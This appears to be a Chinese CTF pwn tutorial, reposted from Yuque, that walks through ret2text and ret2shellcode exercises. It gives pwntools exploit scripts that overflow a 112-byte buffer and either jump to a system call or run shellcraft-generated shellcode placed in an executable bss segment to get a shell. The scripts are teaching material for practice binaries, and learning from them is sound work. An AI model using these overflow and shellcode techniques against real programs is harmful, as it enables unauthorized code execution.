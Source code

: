 # pwn入门（Basic-ROP）

转载自：https://www.yuque.com/hxfqg9/hs80y0/ug9gx5#ueOeL

# Basic-ROP

## ret2text

没啥好说的，看过蒸米的就可以做出来了

exp：

```
from pwn import *
p=process('./ret2text')
sys_addr=0x804863A
payload='a'*112+p32(sys_addr)
p.sendline(payload)
p.interactive()
```

## ret2shellcode

通过有一个复制的函数，会复制到 buf2 这个地方

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574162875314-6f04e478-d8ce-4975-b1d7-502907400056.png)

而且 buf2 所在的是 bss 段

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574162983275-2c3a0d0b-dad5-4f15-a5d8-8e219efa3c7c.png)

通过 gdb 查看 bss 段可执行，所以把只要把内容写到这个地方，然后返回地址跳转到 bss 段就可以执行 shellcode

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574163235157-20066c3b-fd85-44dd-afb4-59ec9d47ab72.png)

掌握了一些 pwntools 的用法

```python
#!/usr/bin/env python
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
print shellcraft.sh()
buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
print shellcode.ljust(112,'A')
sh.interactive()
```

上面是给出的 exp 等价于下面的，可以发现 shellcraft.sh() 可以生成 shellcode

shellcode.ljust(112,'a') 可以控制垃圾数据与 shellcode 合起来的长度为112
